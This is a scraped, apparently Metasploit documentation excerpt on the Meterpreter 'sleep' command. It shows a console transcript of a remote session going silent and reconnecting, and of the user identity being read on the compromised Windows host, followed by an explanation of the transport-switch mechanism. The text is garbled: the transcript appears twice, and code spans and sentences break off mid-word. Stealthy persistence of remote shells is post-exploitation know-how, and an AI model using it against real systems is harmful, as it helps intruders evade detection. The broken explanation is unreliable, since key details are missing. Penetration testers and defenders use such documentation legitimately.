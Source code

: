 ## Silent shells
The interface to the sleep command looks like this:
```msf
meterpreter > sleep 20
[*] Telling the target instance to sleep for 20 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:6005 -> 10.1.10.35:49315) at 2015-06-02 23:00:29 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: WIN-S45GUQ5KGVK\OJ
```

`msf
meterpreter > sleep 20
[*] Telling the target instance to sleep for 20 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:6005 -> 10.1.10.35:49315) at 2015-06-02 23:00:29 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: WIN-S45GUQ5KGVK\OJ
`

`

## Under the hood

The implementation of this command was made rather simple as a result of the work that was done to support multiple transports. To facilitate this command, all that happens is:

* A transport change is invoked, but the transport that is selected as the "next" transport is the same as the currently active one.
* The transport is shut down and the session is closed.
* The timeout value is passed to a call to `

`, forcing the main thread of execution to pause for the allotted period of time.
* Execution resumes, and the resumption of connectivity continues in the usual transport switching fashion, only in this case, the transport that is fired up is the one that was just shut down.

In short, the `


